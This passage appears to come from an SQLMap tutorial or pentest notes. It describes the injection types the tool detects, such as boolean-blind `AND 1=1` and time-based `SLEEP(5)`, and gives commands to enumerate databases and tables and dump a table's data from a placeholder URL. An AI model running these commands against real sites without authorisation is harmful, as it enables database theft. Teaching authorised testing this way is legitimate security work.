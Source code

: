 SQLMap checks:
- WAF presence
- DBMS type
- Parameter behavior (dynamic/static)
- Vulnerability types (error-based, blind, union)

---

### 🧪 Discovered Injection Types (Sample Output)

| Type                | Description |
|---------------------|-------------|
| Boolean-based Blind | Uses logic (e.g. `AND 1=1`) |
| Error-based         | Forces SQL errors for data |
| Time-based Blind    | Uses delays (e.g. `SLEEP(5)`) |
| UNION-based         | Joins injected result with real query |

---

### 🔍 Extracting Databases

```bash
sqlmap -u 'http://example.com/search?cat=1' --dbs
```

Output:
```
[*] users
[*] members
```

---

### 📑 Extracting Tables from a Database

```bash
sqlmap -u 'http://example.com/search?cat=1' -D users --tables
```

Output:
```
[*] thomas
[*] johnath
[*] alexas
```

---

### 📥 Dumping Table Data

```bash
sqlmap -u 'http://example.com/search?cat=1' -D users -T thomas --dump
```
